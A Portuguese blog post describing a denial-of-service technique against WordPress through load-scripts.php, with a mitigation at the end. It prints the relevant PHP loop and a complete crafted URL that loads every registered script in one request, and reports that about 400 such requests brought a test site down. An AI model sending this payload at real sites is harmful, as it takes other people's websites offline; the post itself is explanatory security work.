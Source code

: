```yaml
---
layout: posts
title: Ataques DOS em sites WordPress
data: Julho de 2018
background: /files/images/articles/2018/2018-07-06-Ataques-DOS-em-sites-WordPress/banner.png
description: Analisando vulnerabilidades em sites com WordPress
tags: [Segurança, Wordpress]
categories: 
  - Pentest
---
```

Segundo informações da `WordPress`, hoje eles têm por volta de 29% dos sites que existem na internet, o que é um grande número se pesarmos no valor total de sites existentes.

E infelizmente, vulnerabilidades do tipo `Zero Day`, agrega à todos esses 29%, podendo assim trazer problemas para empresas que dependem do seu site, para garantir o seu lucro.

Hoje vou explicar, um pequeno método de ataque DoS, que eu identifiquei analisando vulnerabilidades de um site em WordPress, de um freelancer que estou fazendo.

> Lembrando que para explorar vulnerabilidades sem permissão do proprietário é crime.

Usando o `WPscan` que é uma ferramenta de análise de vulnerabilidades, identifique uma URL, que me chamou bastante atenção, onde o pesquisador informou um possível método de ataque [DoS](http://baraktawily.blogspot.com/2018/02/how-to-dos-29-of-world-wide-websites.html)

```bash
https://LOCALHOST/wp-admin/load-scripts.php?c=1&load%5B%5D=jquery-ui-core&ver=4.9.1
```

Analisando todos os arquivos do WP vi que o arquivo `load-scripts.php`, recebe um parâmetro chamados load[], sendo esse valor `jquery-ui-core&ver=4.9.1`, e quando faço a requisição dessa página tenho o retorno do script em questão.

![Load Script](/files/images/articles/2018/2018-07-06-Ataques-DOS-em-sites-WordPress/1530882777338.png)

O que podemos perceber com essa URL é que provavelmente foi feita para fornecer à usuários alguns módulos JS, além de que o parâmetro `load[]` se trata de uma matriz, o que significa que podemos colocar vários valores de uma vez só.

Como o WordPress é uma ferramenta opensource, não é difícil ter acesso à todos os seus arquivos de Background, tornando fácil a analise desses arquivos. Com isso descobri que o arquivo foi criado para minimizar a quantidade de requisições enviadas por clientes, ao tentar carregar arquivos como JS e CSS, então quando ele precisa carregar diversos arquivos, ele faz isso em uma única requisição usando o arquivo `load-scripts.php`.

Explorando um pouco mais o arquivo encontrei uma parte do código que existe uma lista bem definida ($wp_scripts), que pode ser solicitada pelos usuários como parte do parâmetro `load []` . Se o valor solicitado existir, o servidor executará uma ação de leitura de E/S para um caminho bem definido associado ao valor fornecido pelo usuário.

````php
foreach ( $load as $handle ) {
	if ( ! array_key_exists( $handle, $wp_scripts->registered ) ) {
		continue;
	}
	$path = ABSPATH . $wp_scripts->registered[ $handle ]->src;
	$out .= get_file( $path ) . "\n";
}
````

Os scripts fica no arquivo [script-loader.php](https://github.com/WordPress/WordPress/blob/master/wp-includes/script-loader.php)

Existem muitos arquivos que o script-loadre.php utiliza, alguns deles são:

````txt
eutil,common,wp-a11y,sack,quicktag,colorpicker,editor,wp-fullscreen-stu,wp-ajax-response,wp-api-request,wp-pointer,autosave,heartbeat,wp-auth-check,wp-lists,prototype,scriptaculous-root,scriptaculous-builder,scriptaculous-dragdrop,scriptaculous-effects,scriptaculous-slider,scriptaculous-sound,scriptaculous-controls,scriptaculous,cropper,jquery,jquery-core,jquery-migrate,jquery-ui-core,jquery-effects-core,jquery-effects-blind,jquery-effects-bounce,jquery-effects-clip,jquery-effects-drop,jquery-effects-explode,jquery-effects-fade,jquery-effects-fold,jquery-effects-highlight,jquery-effects-puff,jquery-effects-pulsate,jquery-effects-scale,jquery-effects-shake,jquery-effects-size,jquery-effects-slide,jquery-effects-transfer,jquery-ui-accordion,jquery-ui-autocomplete,jquery-ui-button,jquery-ui-datepicker,jquery-ui-dialog,jquery-ui-draggable,jquery-ui-droppable,jquery-ui-menu,jquery-ui-mouse,jquery-ui-position,jquery-ui-progressbar,jquery-ui-resizable,jquery-ui-selectable,jquery-ui-selectmenu,jquery-ui-slider,jquery-ui-sortable,jquery-ui-spinner,jquery-ui-tabs,jquery-ui-tooltip,jquery-ui-widget,jquery-form,jquery-color,schedule,jquery-query,jquery-serialize-object,jquery-hotkeys,jquery-table-hotkeys,jquery-touch-punch,suggest,imagesloaded,masonry,jquery-masonry,thickbox,jcrop,swfobject,moxiejs,plupload,plupload-handlers,wp-plupload,swfupload,swfupload-all,swfupload-handlers,comment-repl,json2,underscore,backbone,wp-util,wp-sanitize,wp-backbone,revisions,imgareaselect,mediaelement,mediaelement-core,mediaelement-migrat,mediaelement-vimeo,wp-mediaelement,wp-codemirror,csslint,jshint,esprima,jsonlint,htmlhint,htmlhint-kses,code-editor,wp-theme-plugin-editor,wp-playlist,zxcvbn-async,password-strength-meter,user-profile,language-chooser,user-suggest,admin-ba,wplink,wpdialogs,word-coun,media-upload,hoverIntent,customize-base,customize-loader,customize-preview,customize-models,customize-views,customize-controls,customize-selective-refresh,customize-widgets,customize-preview-widgets,customize-nav-menus,customize-preview-nav-menus,wp-custom-header,accordion,shortcode,media-models,wp-embe,media-views,media-editor,media-audiovideo,mce-view,wp-api,admin-tags,admin-comments,xfn,postbox,tags-box,tags-suggest,post,editor-expand,link,comment,admin-gallery,admin-widgets,media-widgets,media-audio-widget,media-image-widget,media-gallery-widget,media-video-widget,text-widgets,custom-html-widgets,theme,inline-edit-post,inline-edit-tax,plugin-install,updates,farbtastic,iris,wp-color-picker,dashboard,list-revision,media-grid,media,image-edit,set-post-thumbnail,nav-menu,custom-header,custom-background,media-gallery,svg-painter
````

Então coloquei todos esses arquivos dentro da matriz, e fiz a requisição de todos eles de uma única só vez, o que me resultou em quase `5M` e uma demora de `2 minutos`

````
http://LOCALHOST/wp-admin/load-scripts.php?c=1&load%5B%5D=eutil,common,wp-a11y,sack,quicktag,colorpicker,editor,wp-fullscreen-stu,wp-ajax-response,wp-api-request,wp-pointer,autosave,heartbeat,wp-auth-check,wp-lists,prototype,scriptaculous-root,scriptaculous-builder,scriptaculous-dragdrop,scriptaculous-effects,scriptaculous-slider,scriptaculous-sound,scriptaculous-controls,scriptaculous,cropper,jquery,jquery-core,jquery-migrate,jquery-ui-core,jquery-effects-core,jquery-effects-blind,jquery-effects-bounce,jquery-effects-clip,jquery-effects-drop,jquery-effects-explode,jquery-effects-fade,jquery-effects-fold,jquery-effects-highlight,jquery-effects-puff,jquery-effects-pulsate,jquery-effects-scale,jquery-effects-shake,jquery-effects-size,jquery-effects-slide,jquery-effects-transfer,jquery-ui-accordion,jquery-ui-autocomplete,jquery-ui-button,jquery-ui-datepicker,jquery-ui-dialog,jquery-ui-draggable,jquery-ui-droppable,jquery-ui-menu,jquery-ui-mouse,jquery-ui-position,jquery-ui-progressbar,jquery-ui-resizable,jquery-ui-selectable,jquery-ui-selectmenu,jquery-ui-slider,jquery-ui-sortable,jquery-ui-spinner,jquery-ui-tabs,jquery-ui-tooltip,jquery-ui-widget,jquery-form,jquery-color,schedule,jquery-query,jquery-serialize-object,jquery-hotkeys,jquery-table-hotkeys,jquery-touch-punch,suggest,imagesloaded,masonry,jquery-masonry,thickbox,jcrop,swfobject,moxiejs,plupload,plupload-handlers,wp-plupload,swfupload,swfupload-all,swfupload-handlers,comment-repl,json2,underscore,backbone,wp-util,wp-sanitize,wp-backbone,revisions,imgareaselect,mediaelement,mediaelement-core,mediaelement-migrat,mediaelement-vimeo,wp-mediaelement,wp-codemirror,csslint,jshint,esprima,jsonlint,htmlhint,htmlhint-kses,code-editor,wp-theme-plugin-editor,wp-playlist,zxcvbn-async,password-strength-meter,user-profile,language-chooser,user-suggest,admin-ba,wplink,wpdialogs,word-coun,media-upload,hoverIntent,customize-base,customize-loader,customize-preview,customize-models,customize-views,customize-controls,customize-selective-refresh,customize-widgets,customize-preview-widgets,customize-nav-menus,customize-preview-nav-menus,wp-custom-header,accordion,shortcode,media-models,wp-embe,media-views,media-editor,media-audiovideo,mce-view,wp-api,admin-tags,admin-comments,xfn,postbox,tags-box,tags-suggest,post,editor-expand,link,comment,admin-gallery,admin-widgets,media-widgets,media-audio-widget,media-image-widget,media-gallery-widget,media-video-widget,text-widgets,custom-html-widgets,theme,inline-edit-post,inline-edit-tax,plugin-install,updates,farbtastic,iris,wp-color-picker,dashboard,list-revision,media-grid,media,image-edit,set-post-thumbnail,nav-menu,custom-header,custom-background,media-gallery,svg-painter&ver=4.9'
````

Com toda essa demora e tamanha requisição, é fácil criar um script para fazer diversas requisições, para derrubar o site, então fazendo alguns testes, com apenas 400 requisições, derrubei o site.

![1530884365338](/files/images/articles/2018/2018-07-06-Ataques-DOS-em-sites-WordPress/1530884365338.png)

Bom aparentemente não é uma vulnerabilidade do Wordpress, e sim de configuração do servidor, então para corrigir, basta você negar acesso á usuário `anônimo` e liberar apenas para autenticados em seu servidor apache.

\flw
